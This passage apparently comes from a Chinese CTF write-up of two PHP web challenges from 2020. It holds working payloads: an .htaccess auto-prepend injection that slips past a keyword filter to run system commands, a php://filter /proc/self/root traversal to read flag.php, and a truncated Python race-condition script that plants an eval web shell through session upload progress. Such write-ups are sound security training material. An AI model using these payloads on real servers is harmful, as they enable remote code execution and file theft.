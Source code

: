 postman构造请求包发送即可
参考链接：https://www.anquanke.com/post/id/224207（建议直接看这个

## [羊城杯2020]easyphp
关键词：htaccess头文件包含
这题看着就觉得奇怪，写了一堆waf不是直接往index.php写个马不就行了？
但是没写进去，应该是没有权限。
没权写index，那就只能想别的办法了（除了index都会被删除
方法：利用.htaccess设置文件自动包含
.htaccess也可以设置开头自动包含，.htaccess设置php环境变量的格式：
#format
php_value setting_name setting_value
#example
php_value auto_prepend_file .htaccess
所以传参?filename=.htaccess
content有过滤 需要先绕过 
$content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
可以通过对过滤的关键字中间添加换行\n来绕过stristr函数的检测，不过仍然需要注意添加\来转义掉换行，这样才不会出现语法错误，如此一来就不需要再绕过preg_match函数，即可直接写入.htaccess来getshell
?content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\&filename=.htaccess
写入内容：
php_value auto_prepend_fil\ 
e .htaccess 
#<?php system('cat /fla'.'g');?>\ 

用filter流base64decode content中内容也可以绕过

## [WMCTF2020]Make PHP Great Again
预期解：require_once 绕过不能重复包含文件的限制
在php中，require_once在调用时php会检查该文件是否已经被包含过，如果是则不会再次包含。所以我们要读取flag.php，必须绕过这个限制。
原理解析：https://www.anquanke.com/post/id/213235；https://blog.frankli.site/2020/08/05/WMCTF2020-PHP-source-analysis/
payload：php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
/proc/self/root只能多不能少，原理见链接2。

非预期1：?file=php://filter/convert.base64-encode/resource=/Troy3e/../proc/self/cwd/flag.php
附所有proc解析：https://blog.csdn.net/weixin_37778713/article/details/106130248
非预期2：利用session.upload_progress进行文件包含
在PHP>5.4，session.upload_progress.enabled这个参数在php.ini中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在phpinfo中查到.
可以利用session.upload_progress将恶意语句写入session文件，再去利用竞争在session清空前包含session文件，达到Getshell的目的。
exp：
#coding=utf-8 
import io
import requests
import threading
sessid = 'peri0d'
data = {"cmd":"system('whoami');"} 
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid} )